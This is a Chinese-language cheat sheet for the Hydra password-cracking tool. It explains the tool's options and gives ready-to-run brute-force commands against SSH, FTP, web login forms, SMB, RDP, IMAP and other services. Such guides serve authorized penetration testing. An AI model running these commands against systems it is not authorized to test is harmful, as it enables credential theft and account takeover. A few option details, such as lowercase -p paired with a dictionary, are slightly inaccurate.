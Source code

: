 ### hydra用法：

hydra &lt;参数&gt; &lt;IP地址&gt; &lt;服务名&gt;

> hydra的参数是区分大小写的.
>
> hydra支持的服务有:telnet ftp ssh mysql mssql vnc pcanywhere RDP\(3389\)等.

hydra的一些参数:

* -R   
   继续从上一次的进度开始爆破

* -S  
   大写，采用SSL链接

* -s &lt;port&gt;   
   指定端口

* -l &lt;username&gt;   
   指定登录的用户名

* -L &lt;username-list&gt;   
   指定用户名字典

* -p &lt;password&gt;   
   指定密码

* -P &lt;passwd-list&gt;   
   指定密码字典

* -t &lt;number&gt;   
   设置线程数

* -e  
   可选选项，n：空密码试探，s：使用指定用户和密码试探

* -C   
   使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数

* -M &lt;FILE&gt;  
   指定目标列表文件一行一条

* -o &lt;FILE&gt;  
   指定结果输出文件

* -f  
   在使用-M参数以后，找到第一对登录名或者密码的时候中止破解

* -t &lt;TASKS&gt;  
   同时运行的线程数，默认为16

* -w &lt;TIME&gt;  
   设置最大超时的时间，单位秒，默认是30s

* -v / -V  
   显示详细过程

示例:

```
 1、破解ssh：

hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh
hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh

2、破解ftp：

hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

3、get方式提交，破解web登录：

hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php

4、post方式提交，破解web登录：

hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"


hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>"

（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中的内容是表示错误猜解的返回信息提示。）

5、破解https：

hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https

6、破解teamspeak：

hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

7、破解cisco：

hydra -P pass.txt 10.36.16.18 cisco
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

8、破解smb：

hydra -l administrator -P pass.txt 10.36.16.18 smb

9、破解pop3：

hydra -l muts -P pass.txt my.pop3.mail pop3

10、破解rdp：

hydra ip rdp -l administrator -P pass.txt -V

11、破解http-proxy：

hydra -l admin -P pass.txt http-proxy://10.36.16.18

12、破解imap：

hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
```



